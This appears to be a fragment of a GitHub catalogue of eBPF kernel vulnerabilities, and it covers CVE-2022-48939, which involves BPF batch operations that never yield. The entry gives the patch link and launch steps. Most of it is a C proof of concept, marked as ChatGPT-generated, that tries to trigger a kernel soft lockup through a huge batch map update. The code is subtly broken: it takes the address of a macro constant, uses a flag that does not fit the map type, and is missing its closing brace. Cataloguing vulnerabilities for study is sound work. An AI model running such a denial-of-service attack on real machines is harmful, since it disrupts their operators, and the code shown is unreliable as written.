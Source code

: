 ```c
}
```




### CVE-2022-48939
BPF batch operations lacked mechanisms to yield control during extensive processing, allowing them to handle large amounts of data without interruption.

- [Patch](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/?id=75134f16e7dd0007aa474b281935c5f42e79f2c8)
- **Note: it doesn't use an eBPF program directly**
- Key steps to launch: create a large bpf map in userspace and perform batch operations in userspace
- Workaround: ? (does't need bpf program to launch)
- PoC (generated by chatGPT)
```c
#include <stdio.h>
#include <bpf/bpf.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>

#define MAP_SIZE 500000  // Large number of entries to simulate potential lockup

int main() {
    int map_fd;
    int *keys = malloc(MAP_SIZE * sizeof(int));
    int *values = malloc(MAP_SIZE * sizeof(int));
    if (!keys || !values) {
        perror("Failed to allocate memory");
        return 1;
    }

    // Initialize keys and values with arbitrary data
    for (int i = 0; i < MAP_SIZE; i++) {
        keys[i] = i;
        values[i] = i * 2;
    }

    // Create a BPF hash map
    map_fd = bpf_create_map(BPF_MAP_TYPE_HASH, sizeof(int), sizeof(int), MAP_SIZE, 0);
    if (map_fd < 0) {
        perror("Failed to create BPF map");
        return 1;
    }

    printf("Created BPF map with fd: %d\n", map_fd);

    // Attempt a large batch update to trigger soft lockup conditions
    int ret = bpf_map_update_batch(map_fd, keys, values, &MAP_SIZE, BPF_F_LOCK);
    if (ret < 0) {
        perror("Failed to perform batch update");
        return 1;
    }

    printf("Batch update completed\n");

    // Clean up
    close(map_fd);
    free(keys);
    free(values);

    return 0;
```